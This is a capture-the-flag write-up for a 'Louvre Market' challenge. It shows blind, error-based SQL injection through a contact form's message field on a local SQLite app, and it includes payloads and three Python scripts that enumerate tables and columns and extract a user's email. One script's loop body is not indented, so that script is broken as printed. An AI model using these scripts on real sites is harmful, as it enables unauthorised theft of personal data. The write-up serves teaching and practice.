





# Louvre Market

Our aim here is to find the email address of the person wanting to buy the Mona Lisa.

There is a contact section on the site. We can therefore imagine that in her message to the administrator, she wrote 'mona lisa'.

## Attack type

We notice that if we send a message starting with a quote, the server encounters an error. This might suggest SQL injection (SQLi).





In the context of the application (sending a message), the SQL query in the back-end would probably be an `INSERT` instead of a classic `SELECT`. For example, an `INSERT`:

```sql
INSERT INTO table_name (email, message) VALUES ('{email}', '{message}')
```

Let's take a look at the type of language we are using:

MySQL:

```SQL
' and case when (select @@version) then 1 else load_extension(1) end) --
```


SQLite:

```python
' and case when (select sqlite_version();) then 1 else load_extension(1) end) --
```


This redirects us to the home page. This is therefore an SQLite database.

## Table name

Next, we're going to try and extract the name of the table. To do this, we need to play with server-side errors. To do this, we can use the following python code:

```python
import requests

# URL of the form (POST)
url = "http://127.0.0.1:5001/"

# Parameters for the attack
charset = "abcdefghijklmnopqrstuvwxyz0123456789_"
table_name = ""
max_len = 20 # Maximum expected length of the table name

print("[*] Starting blind SQLi enumeration on the 'message' field...\n")

for i in range(1, max_len + 1):
	found = False
	for char in charset:
		# Inject payload into the "message" field
		payload = f"' AND CASE WHEN (SELECT 1 FROM sqlite_master WHERE type='table' AND tbl_name LIKE '{table_name}{char}%') THEN 1 ELSE load_extension(1) END)--"

		data = {
			"email": "test@example.com",
			"message": payload
				}
		response = requests.post(url, data=data)

		# If no error, then the character is valid
		if "error" not in response.text.lower(): # You can adapt this based on the exact error message
			table_name += char
			print(f"[+] Letter {i} found: {char} -> {table_name}")
			found = True
			break

	if not found:
		print("\n[*] Enumeration ended (character not found).")
		break

print(f"\n[!] Discovered table name: {table_name}")
```

```sql
payload = f"' AND CASE WHEN (SELECT 1 FROM sqlite_master WHERE type='table' AND tbl_name LIKE '{table_name}{char}%') THEN 1 ELSE load_extension(1) END)--"
```

- This payload is injected into the `message` field.
- It uses the SQLite system table `sqlite_master` which lists all tables.
- The condition `tbl_name LIKE “{table_name}{char}%”` looks to see if a table exists whose name begins with what we've already found (`table_name`) **+ the current character `char`**.
- If the condition is true (`THEN 1`), the query does not raise an error.
- Otherwise (`ELSE load_extension(1)`), a `load_extension(1)` function which does not exist will cause an error (because loading an invalid extension).
- The `--` is used to comment out the rest of the SQL query, to avoid syntax errors.



The table is therefore `messages`.

## Column names

Now we need to find the attributes of the table. In the same way as above, we can use the following payload:

```python
import requests

url = "http://127.0.0.1:5001/"
charset = "abcdefghijklmnopqrstuvwxyz0123456789"
max_len = 20 # max longueur d'un nom de colonne

print("[*] Starting exhaustive blind SQLi enumeration of column names in 'messages' table...\n")

prefixes = [""]
all_prefixes = set()

for pos in range(1, max_len + 1):
	print(f"[*] Testing position {pos} ...")
	new_prefixes = []

	for prefix in prefixes:
		for char in charset:
		test_prefix = prefix + char

		payload = (f"' AND CASE WHEN (SELECT 1 FROM PRAGMA_TABLE_INFO('messages') WHERE name LIKE '{test_prefix}%') THEN 1 ELSE load_extension(1) END)--")

		data = {
		"email": "test@example.com",
		"message": payload
		}

		response = requests.post(url, data=data)

		if "error" not in response.text.lower():
			new_prefixes.append(test_prefix)
			all_prefixes.add(test_prefix)
			print(f"[+] Found prefix: {test_prefix}")

	if not new_prefixes:
		print("[*] No more prefixes found, stopping enumeration.\n")
		break

	prefixes = new_prefixes

print(f"[*] Filtering full column names...\n")

full_names = set()
for name in all_prefixes:
	payload = (f"' AND CASE WHEN (SELECT 1 FROM PRAGMA_TABLE_INFO('messages') WHERE name = '{name}') THEN 1 ELSE load_extension(1) END)--")

	data = {
	"email": "test@example.com",
	"message": payload
	}

	response = requests.post(url, data=data)

	if "error" not in response.text.lower():
		full_names.add(name)

print(f"[*] Full column names found:\n")

for col in full_names:
	print(f"- {col}")
```



## Retrieve the email

Now we're going to check whether any of the messages in the database contain the string `mona lisa`:

```sql
' and case when (select 1 FROM messages WHERE message LIKE '%mona lisa%') then 1 else load_extension(1) end) --
```

This redirects us to the home page. All we need to do now is extract the email containing the string. We can use the following payload:

```python
import requests

url = "http://127.0.0.1:5001/"
charset = "abcdefghijklmnopqrstuvwxyz0123456789@.-"
max_len = 50 # limite de longueur raisonnable d'un email

print("[*] Starting blind SQLi exfiltration of email linked to message 'mona lisa'...\n")

known_prefix = ""
for pos in range(1, max_len + 1):
	print(f"[*] Testing character at position {pos} ...")
	found = False

	for char in charset:
		test_prefix = known_prefix + char

		payload = (f"' AND CASE WHEN (SELECT 1 FROM messages WHERE message LIKE '%mona lisa%' AND email LIKE '{test_prefix}%') THEN 1 ELSE load_extension(1) END)--"
		)

		data = {
			"email": "test@example.com",
			"message": payload
		}

		response = requests.post(url, data=data)


		if "error" not in response.text.lower():
			known_prefix += char
			print(f"[+] Current email: {known_prefix}")
			found = True
			break

	if not found:
		print("[*] No more characters found, stopping.\n")
		break

print(f"[*] Full extracted email:\n{known_prefix}")
```

So we find the email you're interested in:



Flag: DVCTF{emily@forgotten-gallery.net}
